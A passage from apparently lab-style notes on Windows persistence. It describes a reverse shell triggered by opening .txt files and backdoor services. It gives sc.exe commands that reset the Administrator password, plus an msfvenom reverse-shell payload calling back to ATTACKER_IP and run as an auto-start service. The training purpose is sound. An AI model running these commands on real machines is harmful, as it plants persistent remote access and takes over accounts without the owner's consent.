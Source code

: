 ![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)

Finally, create a listener for your reverse shell and try to open any .txt file on the victim machine (create one if needed). You should receive a reverse shell with the privileges of the user opening the file.

-------------------------------------------------------

## 3. Abusing Services

Windows services offer a great way to establish persistence since they can be configured to run in the background whenever the victim machine is started. If we can leverage any service to run something for us, we can regain control of the victim machine each time it is started.

A service is basically an executable that runs in the background. When configuring a service, you define which executable will be used and select if the service will automatically run when the machine starts or should be manually started.

There are two main ways we can abuse services to establish persistence: either create a new service or modify an existing one to execute our payload.

### Creating backdoor services

We can create and start a service named "THMservice" using the following commands:

```
sc.exe create THMservice binPath= "net user Administrator Passwd123" start= auto
sc.exe start THMservice
```
**Note:** There must be a space after each equal sign for the command to work.

The "net user" command will be executed when the service is started, resetting the Administrator's password to `Passwd123`. Notice how the service has been set to start automatically (start= auto), so that it runs without requiring user interaction.

Resetting a user's password works well enough, but we can also create a reverse shell with msfvenom and associate it with the created service. Notice, however, that service executables are unique since they need to implement a particular protocol to be handled by the system. If you want to create an executable that is compatible with Windows services, you can use the `exe-service` format in msfvenom:

`user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4448 -f exe-service -o rev-svc.exe`

You can then copy the executable to your target system, say in `C:\Windows` and point the service's binPath to it:

```
sc.exe create THMservice2 binPath= "C:\windows\rev-svc.exe" start= auto
sc.exe start THMservice2
```
This should create a connection back to your attacker's machine.

## Modifying existing services
